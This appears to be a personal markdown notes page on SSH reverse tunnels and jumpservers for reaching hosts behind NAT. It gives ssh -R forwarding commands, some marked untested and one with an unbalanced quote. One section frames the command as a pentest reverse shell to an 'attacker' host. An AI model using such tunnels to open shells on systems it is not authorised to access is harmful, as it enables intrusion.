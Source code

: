 # SSh tunneling and reverse shells
Setting up a host to provide a shell without having an external IP address with a listening port.






## Jumpserver  (ssh + sshd)
Intermediate publically-routable server with sshd listening on public IP:PORT.


### Example of using a jumpserver
Involved user accounts:
* `alice@robo-devel` - Machine to grant bob access to.
* `bob@robo-devel` - Machine to grant bob access to.
* `alice@jump` - Alices account on jumpserver.
* `bob@jump` - Bobs account on jumpserver.
* `bob@bob-pad` - Needs remote access to `robo-devel`

Assuming all authentication is properly configured (respective pubkeys present in appropriate `authorized_keys` files on the involved hosts)
* TODO: Step-by-step exact details on doing this; for newbies.

Tunnel established by `alice@robo-devel` to `ssh://alice@jump` forwarding through `jump`

To establish tunnel: (as `alice@robo-devel` i.e. on targets host)
```bash
ssh -R 10022:localhost:22 alice@jump
```
* TODO: Better understand and explain nuances of invocation - e.g. can all params take `ssh://user@host:port/path` style addresses?


TESTME
```bash
## $ ssh -q -W someuser@dest.example.com:10022 someuser@jump.example.com -p 22
ssh -q -W 'someuser@dest.example.com:10022' 'ssh://alice@jump:22'
```

* <https://stackoverflow.com/questions/11793019/how-to-provide-reverse-ssh-to-a-shell>

#### Jumpserver tunnel via script
The same base method as previous, but using a script instead of directly remembering and typing commands.

See file: ["maintain-ssh-tunnel.jumpserver-reverse-shell.sh"](/examples/ssh/maintain-ssh-tunnel.jumpserver-reverse-shell.sh) providing example of infinite loop to auto-reconnect by rerunning ssh command.
You will need to modify the parameters used inside the script to suit your usernames, addresses and ports.


Establishing portforwarding:
```bash
alice@robo-devel:~$ ./maintain-ssh-tunnel.jumpserver-reverse-shell.sh
```

Nested SSH sessions to connect to target:
```bash
bob@bob-pad:~$ ssh ssh://bob@jump
bob@jump:~$ ssh ssh://bob@localhost:10022
bob@robo-devel:~$
```

Connecting to target in one command: (TESTME)
```bash
bob@bob-pad:~$ ssh -q -W 'ssh://bob@localhost:10022' 'ssh://alice@jump:22
```

----------


## Direct tunnel from target (ssh + sshd)
No jumpserver involved, e.g. target host is behind NAT and the other has a publically routable IP.

(Like classic pentest demos, where compromised host directly connects to attacker controlled machine providing a shell to the attacker.)



To establish tunnel: (as `alice@target` i.e. on targets host)
```bash
ssh -R 10022:localhost:22 alice@attacker
```


## Other reverse shell stuff
(Things like netcat and whatnot; break into your printer or the home-automation raspberry pi you setup in your spider-infested crawlspace.)
(Reminder: Don't break the law, kthx.)
* TODO: Add links, notes, examples, advice, guides, etc.



## Links
### SSH
* <https://www.man7.org/linux/man-pages/man1/ssh.1.html>
* <https://stackoverflow.com/questions/11793019/how-to-provide-reverse-ssh-to-a-shell>

Specifications and formats:
* ["OpenSSH Specifications"](https://www.openssh.com/specs.html)
* SSH URI format ["Uniform Resource Identifier (URI) Scheme for Secure Shell (SSH)"](https://www.ietf.org/archive/id/draft-salowey-secsh-uri-00.html)
* ["Uniform Resource Identifier (URI) Scheme for Secure File Transfer Protocol (SFTP) and Secure Shell (SSH)"](https://datatracker.ietf.org/doc/html/draft-ietf-secsh-scp-sftp-ssh-uri-04)

## Unsorted links
